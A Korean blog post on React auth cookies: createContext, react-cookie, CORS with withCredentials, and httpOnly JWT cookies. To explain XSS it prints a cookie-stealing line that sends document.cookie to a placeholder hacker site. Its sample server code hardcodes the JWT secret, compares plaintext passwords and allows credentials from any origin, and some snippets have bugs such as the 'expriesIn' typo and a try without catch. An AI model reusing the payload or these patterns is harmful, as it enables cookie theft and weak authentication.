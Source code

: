```yaml
---
title: "React 54장 - 프로젝트 (3)"
excerpt: "쿠키를 설정해서 사용하자"

categories: React
tags: [React, 리액트, cookie, session, jwt]

toc: true
toc_sticky: true

date: 2023-08-09
last_modified_at: 2023-08-11
---
```


# React

## createContext

- 쿠키를 리코일에 담아 전역적으로 사용하는 방법도 봤지만 `createContext`를 활용한 방법에 대한 작성이다.
- 마찬가지로 전역적인 상태나 데이터를 관리하기 위해 사용되는 함수로, 데이터를 공유하거나 프로퍼티를 전달하지 않고 컴포넌트 간에 값을 주고받을 수 있다고 한다.
- 컴포넌트 트리의 어떤 깊이에서든 해당 컨텍스트의 값을 읽거나 업데이트 할 수 있다.

```js
// type
export interface AuthContextProps {
  token: string | undefined;
  setToken: (token: string) => void;
  removeToken: () => void;
}

// const AuthContext = createContext<AuthContextProps|undefined>(undefined);
```

- 우선 본인은 쿠키에 대한 전역 사용을 할 것이기 때문에 쿠키에 대한 타입만 정의한다.
- 다른 Context 값을 만들어서 필요한 값을 목적에 맞게 작성하면 되겠다.

## AuthProvider

- `React-cookie`를 사용할 것이다.
- 쿠키를 사용하기 위해 `Provider`를 작성하여 최상위에서 감싸줘야 한다.
- `BrowserRouter`를 사용하는 것과 마찬가지로 모든 컴포넌트에서 쿠키를 관리할 수 있게 한다.

```js
function AuthProvider({ children }: { children: React.Node }) {
  const [cookies, setCookie, removeCookie] = useCookies(["token"]);

  const setToken = (token: string) => {
    setCookie("token", token, { path: "/" });
  };

  const removeToken = () => {
    removeCookie("token", { path: "/" });
  };

  const authContextValue: AuthContextProps = {
    token: cookies.token,
    setToken,
    removeToken,
  };

  return <AuthContext.Provider value={authContextValue} />;
}
```

## React-Cookie

- 쿠키에 대한 구조는 아래와 같고 쿠키를 만들고 제거하는 데 옵션을 사용할 수 있다.

```js
const [cookies, setCookie, removeCookie] = useCookies(["쿠키이름"]);
```

- `setCookie(name, value, [options])` 쿠키 값을 설정한다.

  - name[string] : 쿠키 이름
  - value(string|object) : 값을 저장하고 필요한 경우 객체를 문자열화
  - options :
    - path(string) : 쿠키 경로, 모든 페이지에서 쿠키에 액세스할 수 있기 위해선 `/` 사용
    - expires(Date) : 쿠키의 절대 만료 날짜
    - maxAge(number) : 클라이언트가 쿠키를 수신한 시점부터 쿠키의 상대적인 최대 수명 (초)
    - domain(string) : 쿠키의 도메인
    - secure(boolean) : HTTPS를 통해서만 접근
    - httpOnly(boolean) : 서버에서 설정하는 것으로 서버만 쿠키에 접근할 수 있는지 유무
    - sameSite(boolean|none|lax|strice) : Strict 또는 Lax 적용

- `removeCookie(name, [options])` 쿠키를 제거한다.
  - 어디서나 쿠키에 액세스 할 수 있다.
  - cookies : 쿠키를 가져오고 제거할 수 있는 쿠키 인스턴스
  - allCookies : 현재 모든 쿠키

### cors 에러

- 쿠키를 서버와 주고받는 과정에서 `withCredentials: true`를 이용하여, 사용자의 인증 정보를 담아 서버에 전송하고 이를 서버에서 원활히 사용하고자 하였는데 `cors`오류가 발생했다.
- 쿠키를 공부하며 `withCredentials: true`를 사용 시 `cors`오류 발생이 불가피하며 `Access-Control-Allow-Origin`, `Access-Control-Allow-Methods`, `Access-Control-Allow-Credentials` 등의 다양한 옵션을 열어 해결하려 했지만 실패했다.

```js
// server
app.use(cors());

app.use((req, res, next) => {
  res.setHeader("Access-Control-Allow-Origin", "*");
  res.setHeader(
    "Access-Control-Allow-Headers",
    "Origin, X-Requested-With, Content-Type, Accept, Authorization"
  );
  res.setHeader("Access-Control-Allow-Methods", "GET, POST, PATCH, DELETE");
  res.setHeader("Access-Control-Allow-Credentials", "true");

  next();
});

// client
export const api = axios.create({
  baseURL: "http://localhost:3001",
  timeout: 5000,
  headers: {
    "Content-Type": "application/json",
  },
  withCredentials: true,
});
```

- 위 코드로는 문제가 해결되지 않았다.
- `axios`의 `withCredentials` 옵션값을 끄면 에러가 발생하지 않았는데, 당연히 보안 인증 정보를 담은 통신을 하고자 한다면 옵션값을 켜야 했고 다양한 해결방법을 검색했다.
- 다양한 방법을 하나하나 넣어가며 대입한 결과 `jwt`를 만들 때, 보안 옵션으로 `httpOnly: true`를 사용하였는데, 이 옵션은 보안성을 높인 옵션으로, 사이트를 공격하고자 하는 해커가 자바스크립트를 사용해 쿠키를 가로채려 하는 **`XSS`(Cross Site Scripting)** 공격을 막기 위해 사용된다.

```js
location.href = "http://해커사이트/?cookies=" + document.cookie;
```

- 위와 같은 코드를 공개된 게시판에 작성할 시, 이 게시물을 읽은 사용자가 알아차리기도 전에 자신의 모든 쿠키를 해커에게 전송하게 된다.
- 옵션을 설정하면 브라우저에서 쿠키에 접근할 수 없도록 제한하며 위에서 말한 공격이 차단되게 된다.
- 이대로만 요청을 보내게 된다면 `Request error`가 발생하는 데, 이것을 해결하고자 서버에서 모든 응답에 대한 헤더를 열어주어야 한다.
- 위의 서버 코드에서 `Access-Control-Allow-Origin`에 대한 와이들 카드는 사용할 수 없고 `Origin`을 반드시 설정해줘야 한다.
- `cors`미들웨어에 작성할 수 있다.

```js
app.use(
  cors({
    origin: true,
    credentials: true,
  })
);
```

- 정상적으로 작동된다.

### 클라이언트의 리액트 쿠키

- 쿠키를 사용하고자 리액트 쿠키를 사용했다.
- 서버로부터 `jwt`로 만들어 전달받은 쿠키를 리액트 쿠키에 담아 사용하려 했는데, 쿠키값이 `null`로 표시되는 버그가 있었다.
- 사용자의 정보를 전역 상태로 저장하여 사용하는 방법도 있지만, 페이지가 리렌더링 될 때 `useEffect`를 사용하여 쿠키가 있는지 확인하고 서버에서 `jwt`를 사용하여 받은 쿠키에 대한 정보를 복호화해 사용하는 방법을 시도해봤다.

```js
// server
const app = express();
app.use(cors({origin: true, credentials: true}));

async function loginUser(req, res, next){
  try{
    const { id, password } = req.body;
    const user = await User.findOne({id});

    if(!user) res.status(401).send("일치하는 유저가 없습니다.");
    if(user.password !== password) res.status(401).send("비밀번호가 일치하지 않습니다.");

    const token = jwt.sign({id: user.id}, "supersecret", {expriesIn: "1h"});
    res.cookie("token", token, {httpOnly: true});
    res.status(201).send("로그인되었습니다.");
  }
}

userRouter.get("/login", loginUser);

// client
api.get("/login").then(res => {
  alert(res.data);
  setCookie(res.cookie);
  }).catch(err => ...);
```

- 위 코드와 같이 로그인 할 때 일치하는 유저 정보를 찾아, 유저가 존재한다면 쿠키를 보내주는 형식의 코드이다.
- `cookie`는 `header`에 담겨 전송되기 때문에 후처리를 할 필요가 없다.
- 내가 작성한 코드는, 전송되는 쿠키를 리액트 쿠키에 담아 사용하려 했다.
- 브라우저 `Application`에 토큰은 잘 담겨져 있지만 리액트 쿠키에 대한 값은 `null` 을 반환했다.
- 우선 서버에서 `httpOnly` 옵션을 사용하여 전송한 토큰은 클라이언트 측에서 읽기가 불가능하다.
- 읽기가 불가능한 값을 리액트 쿠키에 담아 사용하려 했기에 `null`을 반환하였고, 쿠키는 요청`header`에 담겨 전송되며 자동적으로 브라우저에 담기기 때문에 리액트 쿠키를 굳이 사용하지 않아도 됐다.
- `req`요청에 대한 `cookie`라는 옵션을 사용하면 클라이언트에서 전송한 요청 헤더에 담긴 쿠키를 자동적으로 읽어내기 때문에 이 값을 사용하면 되는 문제였다.
  - 서버에서 요청에 `cookie`를 읽기 위해서 `cookie-parser`미들웨어가 필요하다.
